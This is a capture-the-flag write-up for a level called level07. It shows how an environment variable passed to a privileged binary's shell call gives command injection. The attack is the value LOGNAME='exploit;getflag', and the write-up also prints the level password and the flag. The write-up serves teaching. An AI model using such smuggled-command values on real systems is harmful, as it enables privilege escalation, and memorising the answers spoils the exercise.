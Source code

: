 # level07

## Vulnerability: Environnement variable trickery leading to code injection

level07's password: `wiok45aaoguiboiki2tuin6ub`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level07 executable belongs to flag07 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```bash
scp -P 4242 level07@<host>:level07 .
retdecomp level07
```

shows `asprintf(&buffer, "/bin/echo %s ", getenv("LOGNAME"));` which permits arbitrary code execution

4. tweak the environment variables and pwn the flag

```bash
LOGNAME='exploit;getflag'
./level07
```

gives flag: `fiumuikeil55xe9cu4dood66h`
